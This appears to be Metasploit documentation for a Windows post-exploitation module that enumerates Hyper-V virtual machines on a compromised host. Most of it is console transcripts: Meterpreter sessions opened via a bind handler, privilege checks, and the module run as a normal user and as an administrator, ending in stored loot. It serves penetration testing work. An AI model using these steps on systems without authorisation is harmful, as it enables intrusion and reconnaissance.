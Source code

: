 ## Vulnerable Application

  This post-exploitation module will check if a host is running Hyper-V. If the host is running Hyper-V, the module
  will gather information about all Hyper-V VMs installed on the host, including the name of the VM, its status,
  CPU usage, version of the Hyper-V engine that it relies on, and its state (running, suspended, offline, etc).

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/enum_hyperv_vms`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see a list of Hyper-V VMs that currently exist on the target host if Hyper-V is installed, along with information about their attributes.

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - Name of each VM
  - State of each VM
  - CPU Usage of each VM
  - How long each VM has been running for, down to the milliseconds.
  - Amount of memory assigned to each VM
  - Status of each VM
  - The version of the Hyper-V engine that each VM is using.

## Scenarios

### Meterpreter session as normal user on a Windows Server 2019 Standard Edition host running several VMs - fails as user lacks required permissions

```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.20.150.24:4444
[*] Sending stage (200262 bytes) to 172.20.150.24
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.20.150.24:4444) at 2020-09-10 18:33:16 -0500

meterpreter > whoami
[-] Unknown command: whoami.
meterpreter > getuid
Server username: RAPID7\normal
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeMachineAccountPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/enum_hyperv_vms 
msf6 post(windows/gather/enum_hyperv_vms) > show options

Module options (post/windows/gather/enum_hyperv_vms):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf6 post(windows/gather/enum_hyperv_vms) > set session 1
session => 1
msf6 post(windows/gather/enum_hyperv_vms) > run

[+] Compressed size: 800
[-] You need to be running as an elevated admin or a user of the Hyper-V Administrators group to run this module
[*] Post module execution completed
msf6 post(windows/gather/enum_hyperv_vms) > 
```

### Meterpreter session as an elevated admin user
```
msf6 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.20.150.24:4444
[*] Sending stage (200262 bytes) to 172.20.150.24
[*] Meterpreter session 2 opened (0.0.0.0:0 -> 172.20.150.24:4444) at 2020-09-10 18:43:15 -0500

meterpreter > getuid
Server username: RAPID7\Administrator
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeEnableDelegationPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeMachineAccountPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > use post/windows/gather/enum_hyperv_vms 
msf6 post(windows/gather/enum_hyperv_vms) > set SESSION 2 
SESSION => 2
msf6 post(windows/gather/enum_hyperv_vms) > run

[+] Compressed size: 800
[*] Name           State   CPUUsage(%) MemoryAssigned(M) Uptime           Status             Version
----           -----   ----------- ----------------- ------           ------             -------
Test Machine   Off     0           0                 00:00:00         Operating normally 9.0    
Windows XP SP3 Running 79          2048              02:54:58.3210000 Operating normally 9.0    

[+] Stored loot at /home/gwillcox/.msf4/loot/20200910184541_default_172.20.150.24_host.hyperv_vms_309544.txt
[*] Post module execution completed
msf6 post(windows/gather/enum_hyperv_vms) > 
```
